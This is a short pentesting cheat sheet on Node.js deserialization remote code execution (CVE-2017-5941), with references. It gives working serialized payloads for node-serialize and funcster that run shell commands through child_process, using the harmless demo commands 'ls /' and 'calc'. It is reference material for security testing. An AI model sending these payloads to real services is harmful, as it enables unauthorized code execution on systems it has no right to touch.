# Node Deserialization

## Summary

* [Exploit](#exploit)
    * [node-serialize](#node-serialize)
    * [funcster](#funcster)
* [References](#references)


## Exploit

* In Node source code, look for:
    * `node-serialize`
    * `serialize-to-js`
    * `funcster`


### node-serialize

> An issue was discovered in the node-serialize package 0.0.4 for Node.js. Untrusted data passed into the `unserialize()` function can be exploited to achieve arbitrary code execution by passing a JavaScript Object with an Immediately Invoked Function Expression (IIFE).

1. Generate a serialized payload
    ```js
    var y = {
        rce : function(){
            require('child_process').exec('ls /', function(error,
            stdout, stderr) { console.log(stdout) });
        },
    }
    var serialize = require('node-serialize');
    console.log("Serialized: \n" + serialize.serialize(y));
    ```
2. Add bracket `()` to force the execution
    ```js
    {"rce":"_$$ND_FUNC$$_function(){require('child_process').exec('ls /', function(error,stdout, stderr) { console.log(stdout) });}()"}
    ```
3. Send the payload


### funcster

```js
{"rce":{"__js_function":"function(){CMD=\"cmd /c calc\";const process = this.constructor.constructor('return this.process')();process.mainModule.require('child_process').exec(CMD,function(error,stdout,stderr){console.log(stdout)});}()"}}
```


## References

- [CVE-2017-5941 - NATIONAL VULNERABILITY DATABASE - February 9, 2017](https://nvd.nist.gov/vuln/detail/CVE-2017-5941)
- [Exploiting Node.js deserialization bug for Remote Code Execution (CVE-2017-5941) - Ajin Abraham - October 31, 2018](https://www.exploit-db.com/docs/english/41289-exploiting-node.js-deserialization-bug-for-remote-code-execution.pdf)
- [NodeJS Deserialization - gonczor - January 8, 2020](https://blacksheephacks.pl/nodejs-deserialization/)